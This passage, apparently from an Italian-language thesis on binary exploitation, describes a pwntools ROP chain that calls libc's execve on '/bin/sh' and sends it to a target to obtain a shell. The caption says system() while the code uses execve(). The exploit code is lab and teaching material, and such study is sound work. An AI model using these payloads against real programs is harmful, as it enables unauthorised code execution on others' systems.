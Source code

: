La seconda includeva l'utilizzo del metodo \textbf{execve} fornito da \textbf{pwntools}, che cerca e richiama automaticamente l'omonima funzione \textbf{execve}() presente all'interno della funzione \textbf{libc}, passandole gli argomenti necessari per eseguire una \textit{shell} come accaduto nei due test precedenti:
\begin{lstlisting}[language=Python, label=gadgets add, caption={Creazione e invio della \textbf{ROP chain} effettuando la chiamata a \textbf{system}().}, style =Python]
rop = ROP([elf,libc])                     # creazione oggetto rop
rop.execve(binsh,0,0)                     # chiama execve(idx "/bin/sh\x00", 0, 0)

payload = dict()              
payload[offset] = rop
p.sendline(fit(payload))                  # invio ROP chain
\end{lstlisting}
Come anticipato, in entrambi i casi il risultato finale fu la corretta esecuzione di una \textit{shell}.


